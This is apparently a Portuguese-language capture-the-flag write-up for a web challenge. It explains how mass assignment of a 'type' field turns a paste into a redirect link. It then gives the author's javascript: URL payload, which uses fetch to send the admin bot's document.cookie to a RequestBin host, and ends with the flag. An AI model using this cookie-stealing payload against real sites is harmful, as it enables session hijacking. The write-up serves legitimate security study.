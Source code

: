 Dá pra controlar o valor de type tanto na url-shorter quanto na pastebin. database.addData({ type: 'paste', ...req.body, uid }); se …req.body contiver ‘type’, dá pra colocar qualquer coisa. assim dá pra criar o tipo ‘link’ sem precisar começar com http

Estou achando que é esse o caminho mesmo. Ao trocar o “type” de um Paste para “link”, é possível dar bypass no RegEx do “https://”. Quando vamos para a página de view (/view/:uid), o document.location é substituído pelo dado (parâmetro “data”) que nós passamos. Por exemplo, se ao enviar a requisição para /api/createPaste, passamos no corpo {"data":"<nosso+payload>", "type":"link"}, ele será salvo como “link” no BD. Ao dar um /view/id_que_obtivemos, document.location vira “<nosso+payload>” (em view.html, temos: if (type === 'link') return window.location = data;)

Realmente, era esse o caminho. Lembrei que um “protocolo” válido é javascript:, portanto, fiz uma requisição para /api/createPaste com o seguinte corpo: {"data":"javascript:fetch('https://ensyyniflu29.x.pipedream.net/?pwn=A'+document.cookie)", "type":"link"}.

Enviei o link que obtive do createPaste para o admin. Quando ele manda a requisição para /view/<id_do_meu_paste>, ele recebe o view.html. Essa página executa um script que ao identificar que os dados recebidos do BD tem um type = 'link', o código if (type === 'link') return window.location = data; é executado e o admin é redirecionado para javascript:fetch('https://ensyyniflu29.x.pipedream.net/?pwn=A'+document.cookie), dando um fetch no RequestBin que eu criei e me mandando os cookies dele.

**Flag: dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}**